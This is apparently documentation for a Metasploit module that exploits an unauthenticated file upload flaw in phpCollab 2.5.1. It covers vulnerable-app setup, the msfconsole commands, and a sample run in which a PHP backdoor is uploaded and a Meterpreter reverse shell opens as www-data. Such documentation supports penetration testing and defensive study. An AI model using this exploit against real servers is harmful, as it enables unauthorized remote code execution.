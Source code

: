 ## Vulnerable Application

This module exploits a file upload vulnerability in phpCollab 2.5.1
which could be abused to allow unauthenticated users to execute arbitrary code
under the context of the web server user.

The exploit has been tested on Ubuntu 16.04.3 64-bit

### Vulnerable Application Installation

You can download the vulnerable application from the [exploit-db page](https://www.exploit-db.com/apps/dda41c5b541d7adc0b50b1fcf3bf7519-phpCollab-v2.5.1.zip).

Follow the install instructions from the phpCollab website:
http://phpcollab.com/documentation/install.htm.

The phpCollab application is only compatible with php5.

## Verification Steps

```
msf > use exploit/unix/webapp/phpcollab_upload_exec
msf exploit(phpcollab_upload_exec) > set RHOST [IP Address] 
msf exploit(phpcollab_upload_exec) > set TARGETURI [Installation Directory] 
msf exploit(phpcollab_upload_exec) > exploit 

## Scenarios

[*] Started reverse TCP handler on 192.168.246.129:4444 
[*] Uploading backdoor file: 1.mEgUkeNnxP.php
[+] Backdoor successfully created.
[*] Triggering the exploit...
[*] Sending stage (37543 bytes) to 192.168.246.144
[*] Meterpreter session 1 opened (192.168.246.129:4444 -> 192.168.246.144:49264) at 2017-12-20 15:44:36 -0500
[+] Deleted 1.mEgUkeNnxP.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > pwd
/var/www/html/phpcollab/logos_clients
meterpreter >

```


